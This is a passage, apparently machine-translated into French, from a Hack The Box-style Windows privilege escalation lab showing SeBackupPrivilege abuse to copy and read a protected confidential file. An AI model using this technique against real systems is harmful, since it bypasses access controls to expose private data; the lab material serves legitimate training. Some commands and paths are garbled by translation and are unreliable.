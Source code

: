 Activation de SeBackupPrivilege

```
PS C:\htb> whoami /priv

INFORMATIONS SUR LES PRIVILÈGES
----------------------

Nom du privilège Description État
================================================= ========= ========
SeMachineAccountPrivilege Ajouter des postes de travail au domaine Désactivé
SeBackupPrivilege Sauvegarder des fichiers et des répertoires Activé
SeRestorePrivilege Restaurer les fichiers et les répertoires Désactivé
SeShutdownPrivilege Arrêter le système Désactivé
SeChangeNotifyPrivilege Bypass traverse la vérification activée
SeIncreaseWorkingSetPrivilege Augmenter un ensemble de travail de processus Désactivé

```

#### Copie d'un fichier protégé

Comme nous pouvons le voir ci-dessus, le privilège a été activé avec succès. Ce privilège peut désormais être utilisé pour copier n'importe quel fichier protégé.

Copie d'un fichier protégé

```
PS C:\htb> répertoire C:\Confidentiel

     Répertoire : C:\Confidentiel

Mode LastWriteTime Longueur Nom
---- ------------- ------ ----
-a---- 06/05/2021 13:01 88 Contrat 2021.txt

PS C:\htb> cat 'C:\Confidentiel\2021 Contract.txt'

cat : L'accès au chemin 'C:\Confidential\2021 Contract.txt' est refusé.
A la ligne:1 car:1
+ cat 'C:\Confidentiel\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     + CategoryInfo : PermissionDenied : (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
    izedAccessException
     + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand

```

Copie d'un fichier protégé

```
PS C:\htb> Copier-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copié 88 octets

PS C:\htb> cat .\Contract.txt

Contrat Inlanefreight 2021

==============================

Conseil d'administration:

<...SNIP...>

```
